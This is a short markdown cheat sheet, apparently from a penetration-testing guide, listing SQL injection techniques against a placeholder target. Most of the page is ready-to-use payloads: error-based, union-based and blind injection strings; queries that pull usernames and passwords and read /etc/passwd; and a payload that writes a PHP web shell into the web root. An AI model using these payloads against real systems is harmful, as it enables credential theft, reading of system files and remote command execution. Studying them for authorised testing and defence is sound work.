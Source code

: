### Scenario 1: SQL Injection

#### 1.1 Error-Based SQL Injection
**Reconnaissance Commands:**
```bash
# Test for SQL injection points
curl "http://target_ip/login.php?id=1'" 
curl "http://target_ip/search.php?q=test'" 
```

**Manual Testing Payloads:**
```sql
# Basic error-based detection
' OR 1=1--
' OR 'a'='a
' AND 1=1--
' AND 1=2--

# Union-based enumeration
' UNION SELECT 1,2,3--
' UNION SELECT null,null,null--
' UNION SELECT @@version,database(),user()--
```

**Advanced Manual Exploitation:**
```sql
# Database enumeration
' UNION SELECT schema_name FROM information_schema.schemata--
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

# Data extraction
' UNION SELECT username,password FROM users--
' UNION SELECT load_file('/etc/passwd')--

# File writing (if permissions allow)
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'--
```

#### 1.2 Blind SQL Injection
**Boolean-Based Testing:**
```sql
# Time-based blind injection
' AND SLEEP(5)--
' AND (SELECT SLEEP(5) FROM dual WHERE database()='target_db')--

# Boolean-based blind injection
' AND (SELECT SUBSTRING(database(),1,1)='t')--
' AND LENGTH(database())=8--
```

**Common Mistakes to Avoid:**
- Not testing all parameters (GET, POST, Headers, Cookies)
- Relying solely on automated tools
- Missing blind injection opportunities
- Not properly encoding payloads
- Insufficient manual enumeration
